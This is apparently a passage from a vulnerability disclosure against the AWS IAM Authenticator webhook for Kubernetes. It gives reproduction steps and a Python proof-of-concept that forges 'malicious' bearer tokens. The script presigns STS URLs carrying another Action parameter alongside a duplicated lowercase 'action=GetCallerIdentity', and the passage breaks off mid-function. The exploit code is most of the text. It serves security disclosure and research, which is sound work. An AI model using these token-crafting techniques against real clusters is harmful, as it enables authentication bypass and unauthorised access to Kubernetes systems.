 ## Steps To Reproduce:
1. Create a K8s cluster with [AWS IAM Authenticator](https://github.com/kubernetes-sigs/aws-iam-authenticator) as auth webhook.
(I run the aws-iam-authenticator server locally on my machine using the command `aws-iam-authenticator server -c config.yaml`)
2. You can use the python script below to generate all types of malicious tokens. change the CLUSTER_ID value before running.

```python
import base64
import boto3
import re
from botocore.signers import RequestSigner

REGION = 'us-east-1'
CLUSTER_ID = 'gaf-cluster'


def get_bearer_token(url, headers):
    STS_TOKEN_EXPIRES_IN = 60
    session = boto3.session.Session()

    client = session.client('sts', region_name=REGION)
    service_id = client.meta.service_model.service_id

    signer = RequestSigner(
        service_id,
        REGION,
        'sts',
        'v4',
        session.get_credentials(),
        session.events
    )

    params = {
        'method': 'GET',
        'url': url,
        'body': {},
        'headers': headers,
        'context': {}
    }

    signed_url = signer.generate_presigned_url(
        params,
        region_name=REGION,
        expires_in=STS_TOKEN_EXPIRES_IN,
        operation_name=''
    )

    return signed_url


def base64_encode_no_padding(signed_url):
    base64_url = base64.urlsafe_b64encode(signed_url.encode('utf-8')).decode('utf-8')

    # remove any base64 encoding padding:
    return 'k8s-aws-v1.' + re.sub(r'=*', '', base64_url)


def create_mal_token_with_other_action(action_name):
    url = f'https://sts.{REGION}.amazonaws.com/?Action={action_name}&Version=2011-06-15&action=GetCallerIdentity'
    headers = {'x-k8s-aws-id': CLUSTER_ID}
```